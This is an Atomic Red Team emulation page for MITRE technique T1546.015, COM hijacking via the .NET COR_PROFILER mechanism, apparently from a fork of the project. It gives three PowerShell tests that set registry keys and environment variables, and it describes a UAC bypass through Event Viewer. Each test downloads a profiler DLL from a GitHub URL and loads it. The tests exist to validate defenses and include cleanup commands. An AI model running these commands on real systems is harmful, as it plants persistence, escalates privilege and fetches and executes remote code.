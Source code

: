 # T1546.015 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1546.015)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by hijacked references to Component Object Model (COM) objects. COM is a system within Windows to enable interaction between software components through the operating system.(Citation: Microsoft Component Object Model)  References to various COM objects are stored in the Registry. 

Adversaries can use the COM system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead.(Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER](#atomic-test-1---com-hijack-leveraging-user-scope-cor_profiler)

- [Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER](#atomic-test-2---com-hijack-leveraging-system-scope-cor_profiler)

- [Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER](#atomic-test-3---com-hijack-leveraging-registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER
Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER).
The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by the Event Viewer process.
Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity.
If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however,
the notepad process will not execute with high integrity.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1546.015&#92;bin&#92;T1546.015x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value #{file_name} -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Write-Host "Removing registry keys" -ForegroundColor Cyan
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1546.015&#92;bin&#92;T1546.015x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Write-Host "Removing system environment variables" -ForegroundColor Cyan
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by PowerShell.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | Path | PathToAtomicsFolder&#92;T1546.015&#92;bin&#92;T1546.015x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '#{file_name}'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015x64.dll" -OutFile "#{file_name}"
```




<br/>
